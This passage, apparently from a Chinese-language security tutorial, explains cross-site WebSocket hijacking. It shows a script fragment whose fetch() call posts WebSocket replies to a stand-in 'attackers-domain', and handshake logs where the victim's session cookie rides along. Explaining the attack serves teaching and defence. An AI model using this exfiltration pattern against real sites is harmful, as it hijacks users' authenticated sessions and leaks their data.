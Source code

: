 ```
      websocket.send("attackers-message");
    }
    function handleReply(event) {
      fetch('http://attackers-domain/', {method:'POST',mode:'no-cors',body:event.data})
    }
  </script>
</body>
</html>
```

该脚本由受害者的浏览器执行，该浏览器连接到受害者上下文中的 WebSocket 应用程序 ws: /echo.websocket.org，并传递 cookie 值:

```
GET / HTTP/1.1
Host: echo.websocket.org
User-Agent**:** Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: http://attackers-domain
Sec-WebSocket-Key: twWJRgpy7uu5K9RlQCykJQ==
DNT: 1
Connection: keep-alive, Upgrade
Cookie: SESSIONID=bigsecret
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```

应用程序启动一个新的与 WebSocketcookie 相关的连接，其头源: [http://attackers-domain](http://attackers-domain) 。SESSIONID=bigsecret:

```
HTTP/1.1 101 Web Socket Protocol Handshake
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: content-type
Access-Control-Allow-Headers: authorization
Access-Control-Allow-Headers: x-websocket-extensions
Access-Control-Allow-Headers: x-websocket-version
Access-Control-Allow-Headers: x-websocket-protocol
Access-Control-Allow-Origin: http://attackers-domain
Connection: Upgrade
Date: Mon, 16 Aug 2021 14:11:09 GMT
Sec-WebSocket-Accept: dLr0PXjy/nj7MF1Isif/PLQLNM0=
Server: Kaazing Gateway
Upgrade: websocket
```

攻击者代表受害者发送攻击者消息，负责 WebSocket 的应用程序发送响应消息。因为我们的应用程序是一个 echo 服务器，所以响应也将是一条攻击者消息。

在该过程结束时，服务器的响应被传输到攻击者控制的域:
